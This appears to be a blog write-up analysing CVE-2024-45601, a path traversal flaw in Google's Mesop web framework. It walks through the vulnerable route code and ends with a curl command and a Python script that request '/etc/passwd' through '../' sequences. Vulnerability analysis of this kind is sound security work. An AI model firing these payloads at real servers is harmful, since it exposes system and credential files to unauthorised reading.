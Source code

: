 ```yaml
---
layout: post
title: CVE-2024-45601 Path traversal
date: 2024-11-01
categories: ["1-Day-Analysis", "Python", "CVE-2024-45601"]
---
```


# Sumary

Path Traversal is vulnerability allow attacker able read any file on the system such as `/etc/passwd`. In the CVE-2024-45601, code use `os.path.join(os.getcwd(), path)` without any validate path, so this is lead to vulnerability path traversal. 

This is commit code for this vulnerability: [google/mesop@17fb769](https://github.com/google/mesop/commit/17fb769d6a91f0a8cbccfab18f64977b158a6a31#diff-af4fe7ee2dbe81359f65e957b13dd9ef25d3941cd3952ae6e1d9143e90bd4e1dL99)

# Analysis Code

In the source with input `/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>` attacker can insert with url: `/{WEB_COMPONENTS_PATH_SEGMENT}/../../../../../../../../etc/passwd` then path = `../../../../../../../../etc/passwd`.

```
@app.route(f"/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>")
  def serve_web_components(path: str):
    if not is_file_path(path):
      raise MesopException("Unexpected request to " + path)
    serving_path = (
      get_runfile_location(path)
      if has_runfiles()
      else os.path.join(os.getcwd(), path)
    )
    return send_file_compressed(
      serving_path,
      disable_gzip_cache=disable_gzip_cache,
    )
```

After, code will call function `is_file_path(path)` to check path is valid or not. 

```
def is_file_path(path: str) -> bool:
    _, last_segment = os.path.split(path)
    return "." in last_segment
```

However, function `is_file_path` is just check `.` in the path, it is not prevent vulnerability path traversal. 

Handle path

```
serving_path = (
  get_runfile_location(path)
  if has_runfiles()
  else os.path.join(os.getcwd(), path)
)
```

```
def get_runfile_location(identifier: str) -> str:
    if runfiles.Create() is None:
        current_file_dir = os.path.dirname(__file__)
        return os.path.join(
            current_file_dir, "../" + identifier[len("mesop/mesop/"):]
        )
    return runfiles.Create().Rlocation(identifier)
```

Function `get_runfile_location(identifier)` will create path base on `identifier` but not check `../` in the path. 

If `has_runfiles()` return `True` function `get_runfile_location(identifier)` will create path. However, if return `False` serving_path will create path with `os.path.join(os.getcwd(), path)` and dont have any validate. 

After serving_path is created, file will send to user via `send_file_compressed` function. If file is sensitive data, user can be read sensitive information. 

# Exploit

To the exploit vulnerability path traversal, i can use curl or code python

With curl 

```
curl -X GET "http://localhost:5000/WEB_COMPONENTS_PATH_SEGMENT/../../../../../../etc/passwd"
```

With exploit via python code: 

```
import requests

# Application URL with the path traversal endpoint
base_url = "http://localhost:5000"  
path_segment = "WEB_COMPONENTS_PATH_SEGMENT" 

# Path traversal payload
payload_path = "../../../../../../etc/passwd"

# Create the full URL with the path traversal payload
exploit_url = f"{base_url}/{path_segment}/{payload_path}"

# Send the GET request to the server
try:
    response = requests.get(exploit_url)

    # Check and print the result
    if response.status_code == 200:
        print("Path traversal successful! Contents of /etc/passwd:")
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
        print("The application may have protected against path traversal.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred while sending the request: {e}")
```
